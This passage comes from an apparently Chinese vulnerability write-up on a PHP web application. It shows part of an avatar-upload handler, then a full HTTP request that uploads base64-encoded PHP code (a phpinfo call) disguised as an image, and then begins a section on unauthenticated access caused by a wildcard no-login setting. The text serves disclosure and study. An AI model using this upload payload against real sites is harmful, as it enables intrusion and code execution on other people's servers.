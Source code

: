                      ]);
    }else{
      $this->error('上传错误');
    }
  }else{
    $this->error('格式错误');
  }
}
```  
Payload:```
POST /api/user/avatar HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 73
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=qt0rrvopobbbvibu6f8p9lr42r
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/api/user/avatar
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

base64=data:image/php;base64,YTw/cGhwIHBocGluZm8oKTs/Pg==
```  
  
## 0x04 前台未授权访问漏洞  
##   
  
在 /api/controller/Index.php 控制器的index方法中，很明显地存在 where 查询网站信息及User表中的字段，并且将所有用户枚举出来，且因为 $noNeedLogin = ['*'] 导致所有接口都无权限验证.  
```
<?php
namespace app\api\controller;
use app\common\controller\Api;
/**
 * 首页接口
 */
class Index extends Api
{
  protected $noNeedLogin = ['*'];
  protected $noNeedRight = ['*'];

  /**
     * 首页
     *
     */
  public function index()
{
    $config=$this->config();
    $configs=config('site');
    $map['ishot']=2;
    $map['endtimesjc']=['>',time()];
    if(input('uid',0)>0){
      $map['uid']=input('uid');
    }
    $list =  model('Task')
      ->with('users')
      ->where($map)
      ->limit(10)
```